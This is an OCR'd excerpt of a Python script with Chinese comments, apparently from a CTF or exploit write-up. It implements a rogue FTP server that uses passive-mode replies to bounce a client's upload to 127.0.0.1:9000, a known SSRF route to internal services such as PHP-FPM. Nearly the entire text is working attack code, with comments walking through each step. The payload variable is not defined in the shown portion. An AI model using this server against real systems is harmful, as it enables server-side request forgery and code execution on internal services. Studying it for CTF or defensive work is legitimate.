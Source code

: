     host = '0.0.0.0'
    port = 23
    sk = socket.socket()
    sk.bind((host, port))
    sk.listen(5)
    
    # ftp被动模式的passvie port,监听到1234
    sk2 = socket.socket()
    sk2.bind((host, 1234))
    sk2.listen()
    
    # 计数器，用于区分是第几次ftp连接
    count = 1
    while 1:
        conn, address = sk.accept()
        conn.send(b"200 \n")
        print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
        if count == 1:
            conn.send(b"220 ready\n")
        else:
            conn.send(b"200 ready\n")
    
        print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
        if count == 1:
            conn.send(b"215 \n")
        else:
            conn.send(b"200 \n")
    
        print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
        if count == 1:
            conn.send(b"213 3 \n")  
        else:
            conn.send(b"300 \n")
    
        print(conn.recv(20))  # EPSV\r\n'
        conn.send(b"200 \n")
    
        print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
        if count == 1:
            conn.send(b"227 192,168,1,7,4,210\n")  # 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
        else:
            conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000
    
        print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
        if count == 1:
            conn.send(b"125 \n") # 告诉客户端可以开始数据连接了
            # 新建一个socket给服务端返回我们的payload
            print("建立连接!")
            conn2, address2 = sk2.accept()
            conn2.send(payload)
            conn2.close()
            print("断开连接!")
        else:
            conn.send(b"150 \n")
            print(conn.recv(20))
            exit()
    